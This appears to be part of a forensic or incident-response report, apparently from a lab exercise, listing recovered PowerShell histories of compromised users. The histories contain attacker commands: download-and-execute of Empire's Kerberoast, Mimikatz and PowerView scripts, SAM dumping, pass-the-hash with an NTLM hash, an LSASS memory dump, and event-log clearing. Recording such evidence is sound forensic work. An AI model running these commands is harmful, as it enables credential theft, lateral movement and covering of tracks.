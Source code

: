 ```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-kerberoast -OutputFormat Hashcat
Start-Process -FilePath "powershell.exe" -Verb RunAsUser
mv C:\Users\pat.risus\Desktop\computers.txt C:\Users\brent.socium\
tasklist /M;rdpcorets.dll
tasklist /M:rdpcorets.dll
C:\windows\system32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 828 C:\dump full
ls C:\
cd C:\Users\brent.socium\
ls
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command "privilege::debug token::elevate lsadump::sam"
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls, [Net.SecurityProtocolType]::Tls11, [Net.SecurityProtocolType]::Tls12, [Net.SecurityProtocolType]::Ssl3
[Net.ServicePointManager]::SecurityProtocol = "Tls, Tls11, Tls12, Ssl3"
Invoke-Mimikatz -Command 'privilege::debug token::elevate "sekurlsa::pth /user:administrator /domain:magnumtempus /ntlm:d5e30a3f0a23e3a954d8b579a2ca8dd4"'
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command "privilege::debug token::elevate lsadump::sam"
Invoke-Mimikatz -Command 'privilege::debug token::elevate "sekurlsa::pth /user:administrator /domain:magnumtempus /ntlm:d5e30a3f0a23e3a954d8b579a2ca8dd4"'
Invoke-Mimikatz -Command 'privilege::debug token::elevate "sekurlsa::pth /user:administrator /domain:magnumtempus /ntlm:d5e30a3f0a23e3a954d8b579a2ca8dd4"'
Invoke-Mimikatz -Command 'privilege::debug token::elevate "sekurlsa::pth /user:administrator /domain:magnumtempus /ntlm:d5e30a3f0a23e3a954d8b579a2ca8dd4"'
Invoke-Mimikatz -Command 'privilege::debug token::elevate "sekurlsa::pth /user:administrator /domain:magnumtempus /ntlm:d5e30a3f0a23e3a954d8b579a2ca8dd4"'
Invoke-Mimikatz -Command 'privilege::debug token::elevate "sekurlsa::pth /user:administrator /domain:magnumtempus /ntlm:d5e30a3f0a23e3a954d8b579a2ca8dd4"'
ls
pwd
mv .\computers.txt .\Desktop\
cd .\Desktop\
ls
Invoke-Mimikatz -Command 'privilege::debug token::elevate "sekurlsa::pth /user:administrator /domain:magnumtempus /ntlm:d5e30a3f0a23e3a954d8b579a2ca8dd4"'
Invoke-Mimikatz -Command 'privilege::debug token::elevate "sekurlsa::pth /user:administrator /domain:magnumtempus /ntlm:d5e30a3f0a23e3a954d8b579a2ca8dd4"'
Invoke-Mimikatz -Command 'privilege::debug token::elevate "sekurlsa::pth /user:administrator /domain:magnumtempus /ntlm:d5e30a3f0a23e3a954d8b579a2ca8dd4"'
clear-eventlog -log application,system,security
get-eventlog --list
get-eventlog -list
telnet
```


**Finding 13:** Brent Socium: Powershell History (PSReadLine):
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls, [Net.SecurityProtocolType]::Tls11, [Net.SecurityProtocolType]::Tls12, [Net.SecurityProtocolType]::Ssl3;
[Net.ServicePointManager]::SecurityProtocol = "Tls, Tls11, Tls12, Ssl3";
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess -computerfile C:\Users\pat.risus\Desktop\computers.txt
cd C:\Users\pat.risus\
cd Desktop
cd ..
cd .\brent.socium\
ls
type .\computers.txt
```